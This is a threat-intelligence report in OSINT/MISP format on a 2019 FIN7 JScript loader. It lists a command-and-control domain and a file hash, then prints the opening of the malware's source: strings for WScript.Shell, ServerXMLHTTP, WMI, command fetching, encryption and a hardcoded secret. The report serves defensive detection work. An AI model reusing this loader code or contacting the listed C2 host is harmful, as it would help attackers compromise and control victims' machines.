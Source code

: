 # Threat Report: 2019-05-13: OSINT - [Emering] FIN7 JScript Loader Malware


## Key Intelligence
* Date: 2019-05-13
* Threat Level: 3 (Low)
* Tags: misp-galaxy:mitre-enterprise-attack-intrusion-set="FIN7", misp-galaxy:mitre-enterprise-attack-intrusion-set="FIN7 - G0046", misp-galaxy:mitre-intrusion-set="FIN7", misp-galaxy:mitre-intrusion-set="FIN7 - G0046", misp-galaxy:threat-actor="Anunak", circl:incident-classification="malware", osint:source-type="microblog-post", tlp:white

---

## Indicators of Compromise (IOCs)
### Network activity
* domain: msdn-update.com — C2
* url: https://msdn-update.com/ — C2

### Other
* other: // Bank Statement James Fifeman.xls
// C2: hxxps://msdn-update[.]com/
// SHA-256: 1fe27e0a84a5bd2e433360fd2da5b1cad8d142ca2acbf3e256f0c99d99cb57f1

function anonymous() {
    var zbegbiwhuhro = "&id=";
    var ihebgysipc = "fetch";
    var yfusrihyny = "";
    var tindajrurke = "get_image";
    var ytysqyprozlibx = "string";
    var otocywviso = "no";
    var otbybimollu = "Unknown";
    var evaritpequx = "Scripting.FileSystemObject";
    var yqpawymfikorh = "_";
    var koficijojhi = "/";
    var inoxhegzajw = "action=get_command";
    var ihunuxfip = "request";
    var edomsecejso = "z";
    var lwilpotasvo = "create_logo";
    var vimkiwono = "string";
    var pidwagunit = "%APPDATA%";
    var gqyxqohoftupi = "winmgmts:root/CIMV2";
    var erzirolonje = "create_image";
    var esajigfown = "decrypt";
    var ewypetevhu = "?request=page";
    var bgixmabefzaqnu = "show_ico";
    var huzzakrowopvu = "";
    var zexygrogy = "";
    var iwpodhexzubc = "images";
    var bbymyruztovpi = "WScript.Shell";
    var xaprislyhbulf = "show_jpg";
    var inbypzethezag = "&";
    var ucmomadgib = "request";
    var vjiwumhojarse = "group=zsoc._1305&rt=0&secret=fghedf43dsSFvm03&time=120000&uid=";
    var cedlihrijalti = "?request=content&id=";
    var kyppaltuwti = "image";
    var ejogamygpu = "MSXML2.ServerXMLHTTP";
    var cylofalpitx = "content";
    var fifuwacdez = "encrypt";
    var atkudecaxme = "decrypt";
    var obawufdoxsa = "";